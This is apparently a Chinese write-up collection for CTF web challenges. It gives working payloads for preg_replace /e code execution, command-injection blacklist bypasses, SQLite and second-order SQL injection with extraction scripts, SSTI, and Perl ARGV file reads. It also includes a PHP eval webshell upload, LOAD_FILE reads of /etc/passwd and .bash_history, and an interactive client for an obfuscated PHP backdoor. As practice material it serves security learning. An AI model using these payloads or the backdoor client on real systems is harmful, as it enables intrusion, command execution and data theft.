**接着关于/e漏洞**

> /e 修正符使 preg_replace() 将 replacement 参数当作 PHP 代码（在适当的逆向引用替换完之后）
> **提示：**要确保 replacement 构成一个合法的 PHP 代码字符串，否则 PHP 会在报告在包含 preg_replace() 的行中出现语法解析错误。


根据这个函数的漏洞构造payload，我们上bp，这里要记得要用127.0.0.1来访问

```
/index.php?pat=/123/e&rep=system("ls")&sub=123
```

果然发现了一个奇怪的

```
<br >Welcome My Admin ! <br >css
index.html
index.php
js
layui
logo.png
s3chahahaDir  <---就是这个文件夹里
start.sh
视图.png
```

继续

```
/index.php?pat=/123/e&rep=system("ls+s3chahahaDir")&sub=123
/index.php?pat=/123/e&rep=system("ls+s3chahahaDir/flag")&sub=123
/index.php?pat=/123/e&rep=system("cat+s3chahahaDir/flag/flag.php")&sub=123
```

拿到flag

```php
<br >Welcome My Admin ! <br ><?php
$flag = 'cyberpeace{d2785b4577f2a5213b82a6df42a84cb1}';
?>
```


### favorite_number

#### 考点：php5.5.9数组的key溢出，绕过

这里有很多新知识需要我们知道，这里题目特别提示了PHP5.5.9这个版本，我们待会用到这个

```php
<?php
//php5.5.9
$stuff = $_POST["stuff"];
$array = ['admin', 'user'];
if($stuff === $array && $stuff[0] != 'admin') {
    $num= $_POST["num"];
    if (preg_match("/^\d+$/im",$num)){
        if (!preg_match("/sh|wget|nc|python|php|perl|\?|flag|}|cat|echo|\*|\^|\]|\\\\|'|\"|\|/i",$num)){
            echo "my favorite num is:";
            system("echo ".$num);
        }else{
            echo 'Bonjour!';
        }
    }
} else {
    highlight_file(__FILE__);
} 
```

我们首先进行代码审计

- 首先是个判断，既要数组强等于，又要首元素不等

  ```php
  if($stuff === $array && $stuff[0] != 'admin')
  ```

- 然后是个正则，要求整个字符串都是数字，大小写不敏感，跨行检测

  ```php
  if (preg_match("/^\d+$/im",$num))
  ```

- 最后是个黑名单，把常用的都排除了

  ```php
  if (!preg_match("/sh|wget|nc|python|php|perl|\?|flag|}|cat|echo|\*|\^|\]|\\\\|'|\"|\|/i",$num))
  ```

我们先绕过第一个，这里就是一个难点，我们经过查阅资料知道，这个版本的php有数组的key溢出问题，

> - [PHP的信息安全（入侵获取$flag）的题目【Q2】](https://segmentfault.com/q/1010000003871264)
> - [PHP数组的key溢出问题](https://two.github.io/2015/09/15/PHP-array-hash-key-overflow/)

我们构造payload，这样就过了第一关

```
stuff[4294967296]=admin&stuff[1]=user&num=123
```

跨行检测可以用换行符`%0a`绕过，由于只允许纯数字，但是要想命令执行很明显我们需要字母。可以注意到preg_match开启了/m，也就是开启了多行匹配，因此`^`和`$`不只是匹配字符串的开头和结尾，也匹配一行的开头和一行的结尾。因此我们利用%0a换一行，把命令写在其他的行，这样这个正则匹配就只能匹配到第一行了。

继续更改payload，test成功进入

```
stuff[4294967296]=admin&stuff[1]=user&num=1%0a_test
```

最后就是绕过黑名单了，我们可以用 "\`" 绕过

> ca''t 
>
> cat""t 
>
> ca\t
>
> ca``t
>
> ca$1t
>
> $*和$@，$x(x 代表 1-9),${x}(x>=10) :比如ca${21}t a.txt表示cat a.txt 在没有传入参数的情况下,这些特殊字符默认为空

payload

```
stuff[4294967296]=admin&stuff[1]=user&num=1%0als /		#先看看根目录，发现路径权为/flag

stuff[4294967296]=admin&stuff[1]=user&num=1%0aca``t /fl``ag		#第一种构造
stuff[4294967296]=admin&stuff[1]=user&num=1%0aca$1t /fl$1ag		#“$1”第二种构造

stuff[4294967296]=admin&stuff[1]=user&num=1%0als / -i		#利用文件的inode号读取,先获取flag文件号
stuff[4294967296]=admin&stuff[1]=user&num=1%0atac `find / -inum 1575549`	#tac读取文件号

stuff[4294967296]=admin&stuff[1]=user&num=1%0aa=f;b=lag;tac /$a$b	#字符串拼接
stuff[4294967296]=admin&stuff[1]=user&num=1%0aa=f;b=lag;ca``t /$a$b
```


### lottery

#### 考点：git泄露，代码审计

游戏规则还是比较简单的，注册用户，购买彩票，拿到足够的钱，购买flag。一开始也想过bp抓包或者js调试，但好像都不太行。扫了一下后台发现有robots.txt


ok，我们直接拿githack拿到代码，经过查找，最后的关键代码在api.php里面，我们看到这里有一个buy函数

```php
function buy($req){
	require_registered();
	require_min_money(2);

	$money = $_SESSION['money'];
	$numbers = $req['numbers'];
	$win_numbers = random_win_nums();
	$same_count = 0;
	for($i=0; $i<7; $i++){
		if($numbers[$i] == $win_numbers[$i]){
			$same_count++;
		}
	}
```

其中 `$numbers` 来自用户`json`输入 `{"action":"buy","numbers":"1234567"}`，并且没有检查数据类型。而`$win_numbers` 是随机生成的数字字符串

这里与随机的中奖码比较是一个弱比较，如果我们构造的彩票码为7个ture，这样是会判断我们都猜对了

ok，我们bp抓包，构造一个买彩票的包传上去，刷够了钱就可以买flag了


```
Here is your flag: cyberpeace{e9b10f2d93a945bcecbc525d67d376b5}
```


### FlatScience

#### 考点：SQL注入+sha1碰撞

拿到题目看了看没发现有什么关键的页面，接着再看一下有没有robots.txt，结果我们发现了两个页面


再依次对这两个页面进行测试，在其中一个的注释里发现了一些东西，我们url改为login.php?debug，就出现了php源码


```php
<?php
if(isset($_POST['usr']) && isset($_POST['pw'])){
        $user = $_POST['usr'];
        $pass = $_POST['pw'];
        $db = new SQLite3('../fancy.db');
        $res = $db->query("SELECT id,name from Users where name='".$user."' and password='".sha1($pass."Salz!")."'");
    if($res){
        $row = $res->fetchArray();
    }
    else{
        echo "<br>Some Error occourred!";
    }
    if(isset($row['id'])){
            setcookie('name',' '.$row['name'], time() + 60, '/');
            header("Location: /");
            die();
    }
}
if(isset($_GET['debug']))
highlight_file('login.php');
?> 
```


 sql查询可以轻松闭合，通过SQL语句注入构建我们设计出如下查询的SQL语句：

```
usr=' union select name,sql from sqlite_master--+&pw=123
```

为什么要查询sql呢，这涉及到sqlite自带的结构表sqlite_master，sql是sqlite_master中的一个字段，注入时经常用到的，注入后响应头的set-cookie：

> Set-Cookie: name=+CREATE+TABLE+Users%28id+int+primary+key%2Cname+varchar%28255%29%2Cpassword+varchar%28255%29%2Chint+varchar%28255%29%29;
>
> URL解码后
>
> ```
> CREATE TABLE Users(
>     id int primary key,
>     name varchar(255),
>     password varchar(255),
>     hint varchar(255)
> )
> ```

我们看到了表名和表中的字段了，我们接着构造

```
usr=' union select id,name from Users--+ &pw=123
# +admin

usr=' union select id,password from Users--+ &pw=123
# +3fab54a50e770d830c0416df817567662a9dc85c

usr=' union select id,hint from Users--+ &pw=123
# +my+fav+word+in+my+fav+paper%3F%21 -->my fav word in my fav paper?!（我最喜欢的论文中我最喜欢的词）
```

根据最后的提示，最终的密码是不在网站中，应该是在所以的网站PDF文章中

但是我们之前查到有密码，所以有可能这个就是作者最喜欢的文章的sha1(哈希值)？

我们需要爬取站点中所有的pdf文件，总共30个，然后用脚本进行解析处理，并用sha1函数与加密的密码进行碰撞已找出正确的密码，拿大佬的脚本：

```python
from cStringIO import StringIO
from pdfminer.pdfinterp import PDFResourceManager, PDFPageInterpreter
from pdfminer.converter import TextConverter
from pdfminer.layout import LAParams
from pdfminer.pdfpage import PDFPage
import sys
import string
import os
import hashlib
 
def get_pdf():
	return [i for i in os.listdir("./") if i.endswith("pdf")]
 
def convert_pdf_2_text(path):
    rsrcmgr = PDFResourceManager()
    retstr = StringIO()
    device = TextConverter(rsrcmgr, retstr, codec='utf-8', laparams=LAParams())
    interpreter = PDFPageInterpreter(rsrcmgr, device)
    with open(path, 'rb') as fp:
        for page in PDFPage.get_pages(fp, set()):
            interpreter.process_page(page)
        text = retstr.getvalue()
    device.close()
    retstr.close()
    return text
 
def find_password():
	pdf_path = get_pdf()
	for i in pdf_path:
		print "Searching word in " + i
		pdf_text = convert_pdf_2_text(i).split(" ")
		for word in pdf_text:
			sha1_password = hashlib.sha1(word+"Salz!").hexdigest()
			if sha1_password == '3fab54a50e770d830c0416df817567662a9dc85c':
				print "Find the password :" + word
				exit()
 
if __name__ == "__main__":
	find_password()
```

跑出admin的密码为：ThinJerboa；我们到admin这个登录页面上去输入

```
flag{Th3_Fl4t_Earth_Prof_i$_n0T_so_Smart_huh?}
```


### bug

#### 考点：文件上传

首先打开场景发现是一个登录页面，而且有注册界面，而且还有修改密码的选项，首先注册号账号后查看是否登陆进去能找到漏洞，但是没有发现。

我们打开修改密码界面，尝试是否有逻辑漏洞，果然，我们先输入刚刚注册的的信息进入修改前的验证页面，通过后进入到了修改页面

这里我们bp抓包，修改用户名为admin，密码改为自己的，这样我们就可以成功登录admin


直接登录还是会有一点问题，因为我们需要变成本机访问才能进入，一样的bp抓包添加请求头设置：`X-Forwarded-For:127.0.0.1`，这样我们就可以成功登录admin了

查看网页源码，可以看到有个提示

> <!-- index.php?module=filemanage&do=???-->

我们看到filemanage可以猜到是文件上传，这里我们构造URL

```
index.php?module=filemanage&do=upload
```


这里就是我们的文件上传了，根据提示，这里只能上传图片，我们抓包修改文件类型

> 这里的文件名和MIME类型都进行了过滤，所以我们需要文件内容绕过

上传，抓包，修改文件类型和后缀，比如：.php4或.php5

```
<script language='php'>Antlers</script>		//上传的内容
```

这样就可以得到flag了


### ics-07

#### 考点：

我们进入题目，这里题目直接给了我们源码，我们需要一步一步绕过，首先看这一段

```php
<?php
    if (isset($_GET[id]) && floatval($_GET[id]) !== '1' && substr($_GET[id], -1) === '9') {
        include 'config.php';
        $id = mysql_real_escape_string($_GET[id]);
        $sql="select * from cetc007.user where id='$id'";
        $result = mysql_query($sql);
        $result = mysql_fetch_object($result);
    }else {
        $result = False;
        die();
   	}

if(!$result)die("<br >something wae wrong ! <br>");
if($result){
    echo "id: ".$result->id."</br>";
    echo "name:".$result->user."</br>";
    $_SESSION['admin'] = True;
}
?>
```

变量id的构造

- floatval($_GET[id]) !== '1'			浮点值不为1
- substr($_GET[id], -1) === '9'			id最后一位为9

我们构造一下绕过，在本题中，id需要以1开头，并与9之间以字符分隔。目的是为了满足substr($\_GET[id], -1) === ‘9’和sql查询结果不为空的条件，而并非为了floatval($_GET[id]) !== ‘1’，这里可以看详细解释：[[攻防世界]ics-07](http://www.shijinguowang.com/index.php/2020/10/01/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8Cics-07/)

```
/index.php?page=x&id=1/9&submit=提交查询#
```

这样就可以得到admin


我们再来看下一关

```php
<?php
    if ($_SESSION['admin']) {
        $con = $_POST['con'];
        $file = $_POST['file'];
        $filename = "backup/".$file;

        if(preg_match('/.+\.ph(p[3457]?|t|tml)$/i', $filename)){
            die("Bad file extension");
        }else{
            chdir('uploaded');
            $f = fopen($filename, 'w');
            fwrite($f, $con);
            fclose($f);
        }
    }
?>
```

这里有一个文件上传，这里的`backup/`其实是一个假目录，`chdir('uploaded');`这里改了目录，真实上传目录为upload，我们在传入file时，加上一个…/

其中正则过滤了最后一个"."，及最后一个点的后缀，我们可以多写一个点

现在尝试写个木马进去，con是文件内容，file是文件名，使用POST传参

```
con=<?php @eval($_POST['x']);?>&file=../webshell.php/.
```

flag：/var/www/html/flag.php


### unfinish

#### 考点：SQL二次注入

参考：[攻防世界web进阶区unfinish详解](https://blog.csdn.net/hxhxhxhxx/article/details/107900247)

我们扫后台会发现有3个页面，`login.php`、`register.php`、主页面

这里我们需要在注册的页面进行注入，我们可以猜测注册的sql语句可能类似这样

```
insert into tables value('$email','$username','$passwpord');
```

登录成功后语句：

```
select * from tables where email = "$email";
```

我们尝试在注册时用户名处进行闭合，用户名注册时加个单引号注册失败，双引号注册成功，说明可能为单引号闭合。

同时，题目这里注册的时候作了限制，所以联合查询这种方法不能用。

```
email: 123@123.com
username: 1' and '0
password: 123
```

登陆发现，用户名处回显0，说明存在注入，and运算结果为0


这里过滤了很多东西，无法通过正常的方法进行解题，比如我们在用户名处构造`group_concat(1,database()),database','1')#`，页面会报错。

最后参见大佬的wp，**我们用截取的方法，截取处每一位，然后ascii编码**再获取flag

```python
import requests
import re

register_url = 'http://220.249.52.134:48042/register.php'
login_url = 'http://220.249.52.134:48042/login.php'

for i in range(1, 100):
    register_data = {
        'email': '111@123.com{}'.format(i),
        'username': "0' + ascii(substr((select * from flag) from {} for 1)) + '0".format(i),
        'password': 'admin'
    }
    res = requests.post(url=register_url, data=register_data)

    login_data = {
        'email': '111@123.com{}'.format(i),
        'password': 'admin'
    }
    res_ = requests.post(url=login_url, data=login_data)
    code = re.search(r'<span class="user-name">\s*(\d*)\s*</span>', res_.text)
    print(chr(int(code.group(1))), end='')
# flag{2494e4bf06734c39be2e1626f757ba4c}
```


### Confusion1

#### 考点：SSTI模板注入

我们在页面的报错页面中发现了flag的路径，问题就是如何读取这个地址，尝试SSTI

```
/{{3*4}}
```

返回12，确认是SSTI了

尝试绕过，我们先尝试最常用的，但是被过滤了（这里应该是过滤了 class、 subclasses、 read等关键词）

```
{{''.__class__.__mro__[2].__subclasses__()}}
```

我们再看眼权限

```
{{config}}
```

尝试使用request

```
{{''[request.args.a][request.args.b][2][request.args.c]()}}?a=__class__&b=__mro__&c=__subclasses__
```

> 注意`[request.args.a][request.args.b]` 之间相当于有个字符连接符，并且`[request.args.a]()?a=read` 注意a不是等于read()，不然会返回500

最后的payload

```
{{''[request.args.a][request.args.b][2][request.args.c]()[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')[request.args.d]()}}?a=__class__&b=__mro__&c=__subclasses__&d=read
```


### i-got-id-200

#### 考点：perl网页文件+ARGV上传造成任意文件读取

打开url发现有三个链接，点进去都是.pl文件，且只有files可以上传文件。**’.pl‘文件都是用perl编写的网页文件**

这里我们尝试上传webshell文件，结果将文件的内容全部打印回页面，那么猜想后台应该用了param()函数。

> param()函数会返回一个列表的文件但是只有第一个文件会被放入到下面的接收变量中。如果我们传入一个ARGV的文件，那么Perl会将传入的参数作为文件名读出来。对正常的上传文件进行修改,可以达到读取任意文件的目的。

猜测的后台代码：

```php
use strict;
use warnings; 
use CGI;
my $cgi= CGI->new;
if ( $cgi->upload( 'file' ) ) { 
    my $file= $cgi->param( 'file' );
     while ( <$file> ) { print "$_"; }
}
```

#### 修改为ARGV：

**bp进行抓包，将上传的文件类型及文件内容处复制再粘贴一行，将filename去掉，然后内容填入ARGV**


#### 方法一：命令执行

url构造：`/cgi-bin/file.pl?/bin/bash%20-c%20ls${IFS}/|`

> 这里通过管道的方式，执行任意命令，然后将其输出结果用管道传输到读入流中，这样就可以保证获取到flag文件的位置了。这里用到了${IFS}来作命令分割，原理是会将结果变成bash -c "ls/"的等价形式

我们看到了flag就在根目录下

最后的payload：`cgi-bin/file.pl?/bin/bash%20-c%20cat${IFS}/flag`


#### 方法二：目录穿越

我们可以猜测flag在根目录下，构造目录穿越，这种方法任需要修改为ARGV。

```
/cgi-bin/file.pl?/flag
```


### Web_php_wrong_nginx_config

#### 考点：文件包含、nginx、php后门、编写逆向脚本

这里我们需要查看robots.txt文件，我们可以看见robots.txt给出了两个页面hint.php 和 Hack.php


我们分别进入看看，先看提示hint.php，在提示我们要去看看nginx的配置文件


当我们进入Hack.php时，**提示请登录**并跳转回了登录界面，我们抓包看看。发现Cookie的值为`isLogin=0`，我们猜测如果改为1，是不是就算我们登录了

```
Cookie: isLogin=1
```

ok，成功登录Hack.php


之前想到，nginx有个配置文件有问题，猜测我们需要文件包含读取该文件，这里就需要我们去找到文件包含的上传点了。

最后，我们在点击管理中心这里发现URL发生了变化，`/admin/admin.php?file=index&ext=php` 这里有个file 这里多半是文件包含的地点了

测试`../`和ext去除

- 发现`../`被过滤但可以用`....//`
- 发现`?file=index&ext=`没出现continue，但`?file=index.php&ext=`出现continue，这里事后查了查大概是前面强制跳转到index，后面成功读取index.php

故可结合hint给出的文件做payload

```
file=....//....//....//....//etc/nginx/sites-enabled/site.conf&ext=
```

我们就得到了nginx的配置文件

```php
server {
    listen 8080; ## listen for ipv4; this line is default and implied
    listen [::]:8080; ## listen for ipv6

    root /var/www/html;
    index index.php index.html index.htm;
    port_in_redirect off;
    server_name _;

    # Make site accessible from http://localhost/
    #server_name localhost;

    # If block for setting the time for the logfile
    if ($time_iso8601 ~ "^(\d{4})-(\d{2})-(\d{2})") {
       set $year $1;
       set $month $2;
       set $day $3;
    }
    # Disable sendfile as per https://docs.vagrantup.com/v2/synced-folders/virtualbox.html
    sendfile off;

        set $http_x_forwarded_for_filt $http_x_forwarded_for;
        if ($http_x_forwarded_for_filt ~ ([0-9]+\.[0-9]+\.[0-9]+\.)[0-9]+) {
                set $http_x_forwarded_for_filt $1???;
        }

    # Add stdout logging

    access_log /var/log/nginx/$hostname-access-$year-$month-$day.log openshift_log;
    error_log /var/log/nginx/error.log info;

    location / {
        # First attempt to serve request as file, then
        # as directory, then fall back to index.html
        try_files $uri $uri/ /index.php?q=$uri&$args;
        server_tokens off;
    }

    #error_page 404 /404.html;

    # redirect server error pages to the static page /50x.html
    #
    error_page 500 502 503 504 /50x.html;
    location = /50x.html {
        root /usr/share/nginx/html;
    }
    location ~ \.php$ {
        try_files $uri $uri/ /index.php?q=$uri&$args;
        fastcgi_split_path_info ^(.+\.php)(/.+)$;
        fastcgi_pass unix:/var/run/php/php5.6-fpm.sock;
        fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
        fastcgi_param SCRIPT_NAME $fastcgi_script_name;
        fastcgi_index index.php;
        include fastcgi_params;
        fastcgi_param REMOTE_ADDR $http_x_forwarded_for;
    }

    location ~ /\. {
            log_not_found off;
            deny all;
    }
    location /web-img {
        alias /images/;
        autoindex on;
    }
    location ~* \.(ini|docx|pcapng|doc)$ {  
         deny all;  
    }  

    include /var/www/nginx[.]conf;
}
```

观察配置文件 发现 

```
location /web-img {
  alias /images/;
  autoindex on;
}
```

这个地方可以进行文件遍历，直接访问 /web-img/


尝试访问`web-img../`


在web目录 /var/www/下有个 hack.php.bak文件 是hack.php的备份

打开发现这里是混淆之后的php，这里可以参考[一个PHP混淆后门](https://www.cnblogs.com/go2bed/p/5920811.html)的文章

这里参考网上大佬的分析

- 先是预定义阶段 , 定义了两个字符串和一个 `x()` 函数
- 然后获取攻击者发送的数据 , 这里攻击代码是通过 Referer 字段传输的
- 注意正则函数 preg_match_all() , 该函数从 [Accept-Language](https://blog.csdn.net/qq_40491569/article/details/83472556) 取值 , 然后通过正则匹配后输出到 `$m` 数组中
- 然后拼接了前两种可选语言的首字母 , 和预定义的字符串拼接并进行 md5 校验 , 截取等操作 . 然后赋值给 `$h` 和 `$f` 两个变量
- 循环中的 `$p .= $q[$m[2][$z]]` 会不断从 `$q` 中提取数据 . 结合之前的代码 , 攻击代码是放在 Referer 中的( 最后会放在 `$q` 中 ) , 因此这里可以看作是拼接攻击代码 , 组合成 Payload .
- 然后判断 `$h` 是否出现在 Payload 的开头 , 若是则设置 `$_SESSION['$i'] = ""` , 同时删除 Payload 的 $h 部分 .
- 接着判断 `$_SESSION` 中那个是否存在 `$i` 这个键名 , 若是则将 Payload 赋值给 `$_SESSION[$i]` , 然后查找 `$_SESSION[$i]`( 也就是 Payload ) 中 `$f` 第一次出现的位置 .
- 最后执行payload

payload的执行过程网上有大佬分析的很清楚


根据题目修改后的脚本(修改了密钥和url)如下：

```python
# encoding: utf-8

from random import randint,choice
from hashlib import md5
import urllib
import string
import zlib
import base64
import requests
import re

def choicePart(seq,amount):
    length = len(seq)
    if length == 0 or length < amount:
        print 'Error Input'
        return None
    result = []
    indexes = []
    count = 0
    while count < amount:
        i = randint(0,length-1)
        if not i in indexes:
            indexes.append(i)
            result.append(seq[i])
            count += 1
            if count == amount:
                return result

def randBytesFlow(amount):
    result = ''
    for i in xrange(amount):
        result += chr(randint(0,255))
    return  result

def randAlpha(amount):
    result = ''
    for i in xrange(amount):
        result += choice(string.ascii_letters)
    return result

def loopXor(text,key):
    result = ''
    lenKey = len(key)
    lenTxt = len(text)
    iTxt = 0
    while iTxt < lenTxt:
        iKey = 0
        while iTxt<lenTxt and iKey<lenKey:
            result += chr(ord(key[iKey]) ^ ord(text[iTxt]))
            iTxt += 1
            iKey += 1
    return result


def debugPrint(msg):
    if debugging:
        print msg

# config
debugging = False
keyh = "42f7" # $kh
keyf = "e9ac" # $kf
xorKey = keyh + keyf
url = 'http://111.198.29.45:46283/hack.php'
defaultLang = 'zh-CN'
languages = ['zh-TW;q=0.%d','zh-HK;q=0.%d','en-US;q=0.%d','en;q=0.%d']
proxies = None # {'http':'http://127.0.0.1:8080'} # proxy for debug

sess = requests.Session()

# generate random Accept-Language only once each session
langTmp = choicePart(languages,3)
indexes = sorted(choicePart(range(1,10),3), reverse=True)

acceptLang = [defaultLang]
for i in xrange(3):
    acceptLang.append(langTmp[i] % (indexes[i],))
acceptLangStr = ','.join(acceptLang)
debugPrint(acceptLangStr)

init2Char = acceptLang[0][0] + acceptLang[1][0] # $i
md5head = (md5(init2Char + keyh).hexdigest())[0:3]
md5tail = (md5(init2Char + keyf).hexdigest())[0:3] + randAlpha(randint(3,8))
debugPrint('$i is %s' % (init2Char))
debugPrint('md5 head: %s' % (md5head,))
debugPrint('md5 tail: %s' % (md5tail,))

# Interactive php shell
cmd = raw_input('phpshell > ')
while cmd != '':
    # build junk data in referer
    query = []
    for i in xrange(max(indexes)+1+randint(0,2)):
        key = randAlpha(randint(3,6))
        value = base64.urlsafe_b64encode(randBytesFlow(randint(3,12)))
        query.append((key, value))
    debugPrint('Before insert payload:')
    debugPrint(query)
    debugPrint(urllib.urlencode(query))

    # encode payload
    payload = zlib.compress(cmd)
    payload = loopXor(payload,xorKey)
    payload = base64.urlsafe_b64encode(payload)
    payload = md5head + payload

    # cut payload, replace into referer
    cutIndex = randint(2,len(payload)-3)
    payloadPieces = (payload[0:cutIndex], payload[cutIndex:], md5tail)
    iPiece = 0
    for i in indexes:
        query[i] = (query[i][0],payloadPieces[iPiece])
        iPiece += 1
    referer = url + '?' + urllib.urlencode(query)
    debugPrint('After insert payload, referer is:')
    debugPrint(query)
    debugPrint(referer)

    # send request
    r = sess.get(url,headers={'Accept-Language':acceptLangStr,'Referer':referer},proxies=proxies)
    html = r.text
    debugPrint(html)

    # process response
    pattern = re.compile(r'<%s>(.*)</%s>' % (xorKey,xorKey))
    output = pattern.findall(html)
    if len(output) == 0:
        print 'Error,  no backdoor response'
        cmd = raw_input('phpshell > ')
        continue
    output = output[0]
    debugPrint(output)
    output = output.decode('base64')
    output = loopXor(output,xorKey)
    output = zlib.decompress(output)
    print output
    cmd = raw_input('phpshell > ')
```

运行程序就可以找到flag了


### comment

#### 考点：爆破，git泄露，代码审计，SQL注入

做web题可以先去扫一下后台，这里我们先放一边去扫描。

进入就是一个留言板，我们随便留言提交之后就会要我们登录。这里的默认其实就是在提示我们需要爆破账号，即用户名为：`zhangwei`，密码是zhangwei***，我们只需要爆破后三位，最后结果是`zhangwei666`


由于题目提示了我们这是一道SQL题，所以我们需要找到注入点。这时，后台扫描出了结果，我们发现了git泄露，直接githack获取泄露。


得到一个write_do.php文件，**哦~这里提示，他的git跑路了**，所以我们这个源码下载的不全！我们找到大佬的修复脚本将commit补上，这里涉及到**git修复**

这里是大佬的git修复脚本，需要在linux下使用

```
git clone https://github.com/wangyihang/githacker	# 获取githacker
python GitHacker.py http://220.249.52.134:44218/.git/	# 获得git源码
```

1. 修复git，先cd到你执行脚本出来的文件夹，然后执行以下命令

   ```
   git log --reflog
   ```

2. 复制上面commit的第一个内容，再执行这一条

   ```
   git reset --hard b334ca545b722ac0c57926f2ecc86f10839d9376
   ```

这样才能获得完整的php代码

```php
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    $category = addslashes($_POST['category']);
    $title = addslashes($_POST['title']);
    $content = addslashes($_POST['content']);
    $sql = "insert into board
            set category = '$category',
                title = '$title',
                content = '$content'";
    $result = mysql_query($sql);
    header("Location: ./index.php");
    break;
case 'comment':
    $bo_id = addslashes($_POST['bo_id']);
    $sql = "select category from board where id='$bo_id'";
    $result = mysql_query($sql);
    $num = mysql_num_rows($result);
    if($num>0){
    $category = mysql_fetch_array($result)['category'];
    $content = addslashes($_POST['content']);
    $sql = "insert into comment
            set category = '$category',
                content = '$content',
                bo_id = '$bo_id'";
    $result = mysql_query($sql);
    }
    header("Location: ./comment.php?id=$bo_id");
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>
```

通过审计发现这里存在二次注入的情况，comment模块中的`$category` 是直接从board中取出数据，没有过滤就直接放入sql语句中了，其中我们`$category`和`$content`都可控

```php
$sql = "insert into comment
    set category = '$category',
    content = '$content',
    bo_id = '$bo_id'";
$result = mysql_query($sql);
```

这个sql语句是换行的，所以我们无法用单行注释符，必须用/**/拼接，达到如下的效果

```php
$sql = "insert into comment
    set category = '123',content=user(),/*',
    content = '*/#',
    bo_id = '$bo_id'";
```

**在CATEGORY“处存入我们的恶意payload的前部分，在评论处补充后半部分**


我们学习一下师傅们的思路

1. 首先我们先读取/etc/passwd，就可以得知www用户的目录。payload如下

   ```
   category为: 123',content=(select( load_file('/etc/passwd'))),/*
   留言内容为：*/#
   ```

   

2. 然后读history文件：/home/www/.bash_history，可以看到网站管理员的历史命令。payload如下

   ```
   category为: 123',content=(select( load_file('/home/www/.bash_history'))),/*
   留言内容为：*/#
   ```

   

   ```
   cd /tmp/
   unzip html.zip 
   rm -f html.zip 
   cp -r html /var/www/ 
   cd /var/www/html/ 
   rm -f .DS_Store 
   service apache2 start 
   ```

   分析上图中的历史命令

   - 先在/tmp目录下解压压缩包
   - 然后删除压缩包
   - 再将html目录复制到/var/www/目录下
   - 切换到/var/www/html，然后删除.DS_Store，启动apache

3. history命令说明原本/tmp/html/目录下有个.DS_Store文件，那么读取他。

   这儿由于文件太大，不能完全显示，所以我们用十六进制编码，然后找个网站解码就行了。

   ```
   category为: 123',content=(select hex(load_file('/tmp/html/.DS_Store'))),/*
   留言内容为：*/#
   ```

   

   这里得到flag的文件名**flag_8946e1ff1ee3e40f.php**

4. 最后我们读取此文件即可得到flag。payload如下

   ```
   category为: 123',content=(select hex(load_file('/var/www/html/flag_8946e1ff1ee3e40f.php'))),/*
   留言内容为：*/#
   ```

   最后解出16进制就可以得到了

   ```
   <?php
   	$flag="flag{0dd14aae81d94904b3492117e2a3d4df}";
   ?>
   ```


### Zhuanxv

#### 考点：SQL盲注，java web

参考：

> https://www.cnblogs.com/mke2fs/p/11519039.html
>
> https://blog.csdn.net/qq_40884727/article/details/100943302
>
> https://www.pianshen.com/article/59371136104/

通过扫描发现 list目录

```
http://220.249.52.134:57170/list
```

此时需要去找一下页面的css，在里面藏了东西


后台的背景图片居然是这样读取的，估计可能有文件读取漏洞，另外，抓包发现页面是java web写的，所以想办法读取配置文件web.xml

```
http://220.249.52.134:57170/loadimage?fileName=../../WEB-INF/web.xml
```


配置文件里面写的是Struts2,搜了下Struts2目录结构

参考链接：

> https://blog.csdn.net/u010004082/article/details/79351459
>
> https://www.cnblogs.com/pigtail/archive/2013/02/12/2910348.html

- apps-存放了所有Struts2的示例项目
- docs-存放了所有Struts2与XWork的文档
- lib-存放了所有Struts2相关的JAR文件以及Struts2运行时所依赖的JAR文件
- src-存放了所有Struts2的源码，以Maven所指定的项目结构目录存放

**继续读取Struts2在WEB-INF目录的class目录下核心的xml文件struts.xml**

```
http://220.249.52.134:57170/loadimage?fileName=../../WEB-INF/classes/struts.xml
```

借鉴了大佬的wp,发现还有个applicationContext.xml，用来获取class文件路径和项目配置信息、数据库信息，在其中找到类UserServiceImpl:

```java
public List <User> loginCheck(String name, String password) {
    name = name.replaceAll(" ", "");
    name = name.replaceAll("=", "");
    Matcher username_matcher = Pattern.compile("^[0-9a-zA-Z]+$").matcher(name);
    Matcher password_matcher = Pattern.compile("^[0-9a-zA-Z]+$").matcher(password);
    if (password_matcher.find()) {
    	return this.userDao.loginCheck(name, password);
    }
    return null;
}
```

这里是登陆语句的过滤规则,在UserDaoImpl.class中找到

```java
public List < User > loginCheck(String name, String password) {
        return getHibernateTemplate().find("from User where name ='" + name + "' and password = '" + password + "'");  
}
// 过滤规则：用户名只过滤空格和等号，密码限制只能字母+数字
```

直接拼接的name和password变量造成注入，这里用%0A换行污染绕过，再url编码一下，最后的payload

```
admin'%0Aor%0A'1'>'0'%0Aor%0Aname%0Alike%0A'admin&user.password=1

admin%27%0Aor%0A%271%27%3E%270'%0Aor%0Aname%0Alike%0A'admin&user.password=1		//最后的payload
```

这样是可以进去的

```
http://220.249.52.134:57170/zhuanxvlogin?user.name=admin%27%0Aor%0A%271%27%3E%270%27%0Aor%0Aname%0Alike%0A%27admin&user.password=1
```


登陆进去了，但是没啥用，flag是在数据库里面

接下来可以写一个盲注脚本,附大佬脚本

```python
import requests
s=requests.session()

flag=''
for i in range(1,50):
    p=''
    for j in range(1,255):
  		payload="(select%0Aascii(substr(id,"+str(i)+",1))%0Afrom%0AFlag%0Awhere%0Aid<2)<'"+str(j)+"'"
  		url="http://220.249.52.134:57170/zhuanxvlogin?user.name=admin'%0Aor%0A"+payload+"%0Aor%0Aname%0Alike%0A'admin&user.password=1"
  		r1=s.get(url)
  		if len(r1.text)>20000 and p!='':
  			flag+=p
  			print(i,flag)
  			break
  		p=chr(j)
```


### wtf.sh-150

#### 考点：WTF，目录穿越，代码执行

进入后发现题目是一个论坛，我们可以先注册一个账号


在尝试多次失败后，尝试目录穿越

在展示文章的页面 post.wtf 下发现路径穿越漏洞（如果应用程序使用用户可控制的数据，以危险的方式访问位于应用服务器或其它后端文件系统的文件或目录，就会出现路径遍历。攻击者可以将路径遍历序列放入文件名内，向上回溯，从而访问服务器上的任何文件）

```
http://220.249.52.134:51526/post.wtf?post=../
```


这里就是评论的源码了，我们页面搜索一下flag，


格式化一下代码


